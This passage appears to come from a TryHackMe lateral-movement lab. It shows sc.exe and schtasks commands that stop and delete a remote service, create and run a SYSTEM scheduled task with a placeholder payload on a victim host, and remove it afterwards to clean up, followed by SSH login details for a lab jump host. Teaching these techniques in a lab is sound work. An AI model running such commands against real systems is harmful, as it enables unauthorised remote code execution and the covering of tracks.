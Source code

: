 To stop and delete the service, we can then execute the following commands:

```shell-session
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:

**Victim**

```shell-session
schtasks /s $VICTIM2 /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $VICTIM2 /run /TN "THMtask1" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

**Victim**

```shell-session
schtasks /S $VICTIM2 /TN "THMtask1" /DELETE /F
```



### Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you in Task 1 from [http://distributor.za.tryhackme.com/creds](http://distributor.za.tryhackme.com/creds). If you haven't done so yet, click on the link and get credentials now. Once you have your credentials, connect to THMJMP2 via SSH:

Kali

```
ssh za\\t1_leonard.summers@thmjmp2.za.tryhackme.com
```

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1\_leonard.summers

**Password:** EZpass4ever

